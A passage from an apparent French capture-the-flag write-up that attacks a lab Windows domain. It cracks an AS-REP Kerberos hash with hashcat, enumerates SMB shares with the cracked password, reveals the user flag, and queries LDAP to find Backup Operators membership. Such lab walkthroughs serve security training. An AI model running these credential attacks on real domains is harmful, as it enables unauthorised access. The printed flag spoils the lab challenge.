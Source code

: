 On obtient le hash de l'utilisateur `zximena448` que l'on s'empresse de casser :

```console
root@7c7fc38e3e60:~# hashcat -m 18200 /data/hash.txt /data/rockyou.txt
--- snip ---
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:3b6a625efc3caa47dc23550f01ed5b6e$5127477bc7a290e7ea24f2d4fd2bd01fc4ce01c8a88022ab0e6046cbc0899e4e568c5e91162b754c4b1b675d13acc0418b0a9c2d4ce59752424a8220af2551c74e4a70acb2256e2f585f87dd8ca3a57d3966c8c25a851f817ca238b72addde78ec70737e6e269cb8a00ff806b08eb16dc2896667f121c80e53cf084df9c6fbcab386a7fbc836fa0767c1b23f6f5dd474a297412537c269d91ca3a9dd52ad84411ccf9926f74a5d6712c11931fcd7f89d5c2a6192471aace091d45dc69a34068cb9af2a4091e010731414ef16ae3b58cdd057e9862ed0d48b45d116bd30d639543c818028b76d99d50b903ff44ca1e7e675bdf549bb6b:internet
```

Le mot de passe est `internet`.

On peut désormais accéder à des partages, mais toujours pas de shell possible.

```console
$ ./nxc smb -u zximena448 -p internet --shares 192.168.56.126
SMB         192.168.56.126  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         192.168.56.126  445    DC01             [+] SOUPEDECODE.LOCAL\zximena448:internet 
SMB         192.168.56.126  445    DC01             [*] Enumerated shares
SMB         192.168.56.126  445    DC01             Share           Permissions     Remark
SMB         192.168.56.126  445    DC01             -----           -----------     ------
SMB         192.168.56.126  445    DC01             ADMIN$          READ            Remote Admin
SMB         192.168.56.126  445    DC01             C$              READ,WRITE      Default share
SMB         192.168.56.126  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.126  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.56.126  445    DC01             SYSVOL          READ            Logon server share
```

On peut au moins récupérer le flag `2fe79eb0e02ecd4dd2833cfcbbdb504c` dans le `user.txt` sur le bureau de l'utilisateur.

Notre premier compte `charlie` a les permissions nécessaires pour questionner le LDAP. On va s'en servir pour se renseigner sur le compte `zximena448`.

```console
$ ldapsearch -x -H ldap://192.168.56.126 -D "charlie@soupedecode.local" -w 'charlie' -b "DC=soupedecode,DC=local" "(sAMAccountName=zximena448)" memberOf
# extended LDIF
#
# LDAPv3
# base <DC=soupedecode,DC=local> with scope subtree
# filter: (sAMAccountName=zximena448)
# requesting: memberOf 
#

# Zach Ximena, Users, SOUPEDECODE.LOCAL
dn: CN=Zach Ximena,CN=Users,DC=SOUPEDECODE,DC=LOCAL
memberOf: CN=Backup Operators,CN=Builtin,DC=SOUPEDECODE,DC=LOCAL

# search reference
ref: ldap://ForestDnsZones.SOUPEDECODE.LOCAL/DC=ForestDnsZones,DC=SOUPEDECODE,
 DC=LOCAL

# search reference
ref: ldap://DomainDnsZones.SOUPEDECODE.LOCAL/DC=DomainDnsZones,DC=SOUPEDECODE,
 DC=LOCAL

# search reference
ref: ldap://SOUPEDECODE.LOCAL/CN=Configuration,DC=SOUPEDECODE,DC=LOCAL

# search result
search: 2
```